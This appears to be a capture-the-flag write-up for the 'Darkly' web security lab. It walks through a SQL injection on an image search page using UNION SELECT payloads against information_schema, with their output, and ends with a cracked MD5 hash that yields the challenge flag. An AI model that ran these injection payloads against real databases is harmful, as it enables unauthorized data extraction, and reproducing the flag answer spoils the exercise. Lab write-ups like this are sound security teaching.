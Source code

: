 # SQL Injection (searchimg)

## Vulnerability

At the middle of the page, there is a `SEARCH IMAGE` button to: [`index.php?page=searchimg`](`http://darkly/?page=searchimg`).

The page contains an input and a button.
Giving an empty input and clicking on submit gave us nothing.

We can check for SQL injection by doing a simple query: [[run]](<http://darkly/?page=searchimg&id=1+OR+true&Submit=Submit#>)
```sql
1 OR true
```

Give the result:
```
ID: 1 OR true 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 OR true 
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42

ID: 1 OR true 
Title: Google
Url : https://fr.wikipedia.org/wiki/Logo_de_Go

ID: 1 OR true 
Title: Earth
Url : https://en.wikipedia.org/wiki/Earth#/med

ID: 1 OR true 
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

Since we can't blindly explore the database, we have to extract some metadata first.

The first one is the table name using the following query: [[run]](<http://darkly/?page=searchimg&id=1+UNION%28SELECT+%60SCHEMA_NAME%60%2C+1+FROM+%60information_schema%60.%60SCHEMATA%60%29%3B&Submit=Submit#:~:text=Title%3A%201%0AUrl%20%3A-,Member_images,-ID%3A%201%20UNION>)
```sql
1 UNION(SELECT `SCHEMA_NAME`, 1 FROM `information_schema`.`SCHEMATA`);
```

We can now see the tables name:
- `information_schema`
- `Member_Brute_Force`
- `Member_Sql_Injection`
- `Member_guestbook`
- `Member_images`
- `Member_survey`

Since the challenge seems to be an SQL Injection, let's take `Member_images`.

Now we need to extract the tables name: [[run]](<http://darkly/?page=searchimg&id=1+UNION(SELECT+%60TABLE_NAME%60,+%60TABLE_SCHEMA%60+FROM+%60information_schema%60.%60TABLES%60);&Submit=Submit#:~:text=Title%3A%20Member_images%0AUrl%20%3A-,list_images,-ID%3A%201%20UNION>)
```sql
1 UNION(SELECT `TABLE_NAME`, `TABLE_SCHEMA` FROM `information_schema`.`TABLES`);
```

By filtering in the data, we can see that there is only one table: `list_images`.

Now we need to extract the columns name: [[run]](<http://darkly/?page=searchimg&id=1+UNION%28SELECT+%60TABLE_NAME%60%2C+%60COLUMN_NAME%60+FROM+%60information_schema%60.%60COLUMNS%60%29%3B&Submit=Submit#:~:text=information_schema%60.%60COLUMNS%60)%3B%20%0ATitle%3A-,id,-Url%20%3A%20list_images>)
```sql
1 UNION(SELECT `TABLE_NAME`, `COLUMN_NAME` FROM `information_schema`.`COLUMNS`);
```

By filtering in the data, we now know the column names:
- `id`
- `url`
- `title`
- `comment`

Only the last contain interesting informations.

By querying them, we know what to do next: [[run]](http://darkly/?page=searchimg&id=1+UNION%28SELECT+%60id%60%2C+%60comment%60+FROM+%60list_images%60%29%3B&Submit=Submit#:~:text=1928e8083cf461a51303633093573c46)
```sql
1 UNION(SELECT `id`, `comment` FROM `list_images`);
```
```
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

Using a universal hash decryptor likes [hashes.com](https://hashes.com/en/decrypt/hash), the MD5 match has been found:
```
1928e8083cf461a51303633093573c46:albatroz:MD5
```

So, the flag is:
```
sha256(lower('albatroz'))
```

## Possible Fix

- Use prepared statements.
